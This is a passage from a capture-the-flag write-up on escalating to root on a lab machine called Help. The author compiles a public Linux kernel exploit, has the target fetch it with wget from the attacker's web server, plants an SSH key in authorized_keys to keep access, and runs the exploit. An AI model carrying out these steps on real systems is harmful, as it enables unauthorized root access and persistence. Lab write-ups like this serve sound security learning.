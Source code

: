 ```
----------------------------------------------------------------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                         | exploits/linux/local/44298.c
----------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
So we grab a local copy with `searchsploit -m 44298` and compile it with `gcc 44298.c -o thoseguys`

Now that we have a compiled binary form we need to get it on the box. Luckily file transfers are easy with the tools built in to Linux (`wget`) So locally in our directory we spin up a temporary web server with `python -m SimpleHTTPServer 80` and back on the box use `wget` to download the file somewhere 
```
help@help:~$ wget 10.10.14.22/thoseguys -O /tmp/thoseguys
```
This throws an invalid argument error… could be our pseudo shell, we know that ssh is on the box, so lets upgrade to a better shell with ssh.

Back on our local box, we generate some ssh keys with ssh-keygen:
```
root@kali: ssh-keygen -f thoseguys              
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in thoseguys.
Your public key has been saved in thoseguys.pub.
...
```

Chmod the private key `chmod 600 thoseguys` and then get the contents of the public key with `cat thoseguys.pub`

Copy the contents of the public key and in our reverse shell, create a .ssh directory in the users home directory and echo it out into an authorized_keys file:
```
mkdir -p /home/help/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/iyUSYgZPfiQ5n0j77yyOR/zFCJeBFA4rwVmGAxwdmReSR1CnlkRkdLy4vsvixZYqyOjjoUX8nSg8wBVnDF6bkUEn1m4eYV3mOfMiuNBaglhaCnigG4MBnrd8t0D7l/lg5oDUfJWAS/TiepqLuQODO6tXKhD1/OwurxYWEj1d4KFRNq5depJom2BEiyCLB5YCpKK79hX5REqe6RmqlASY6TC707lxWeq0upQ5scYxO0veU/E0YyMLi7gwvPiJryJ3f/VnoMQT93eRyxNWlCwAAdRM6I46eB3jacQdpxnT+RKOiIrnlV7Opx6UVYdPIGphE/qO+fHGxrjWhEaDYli3 root@kali' > /home/help/.ssh/authorized_keys
chmod 600 /home/help/authorized_keys
```
We are now able to connect directly to the box through ssh:
```
root@kali: ssh -i thoseguys help@10.10.10.121   
The authenticity of host '10.10.10.121 (10.10.10.121)' can't be established.
ECDSA key fingerprint is SHA256:hObUCDbNmiPilZ/0rchuxdSfRB7uSKrmk/4TjE5nCnk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.121' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Fri Jan 11 06:18:50 2019
help@help:~$ ssh in as help
```
Now when we run the exploit we get a root shell:
```
help@help:/tmp$ ./thoseguys
task_struct = ffff88003aabb800
uidptr = ffff8800370bb684
```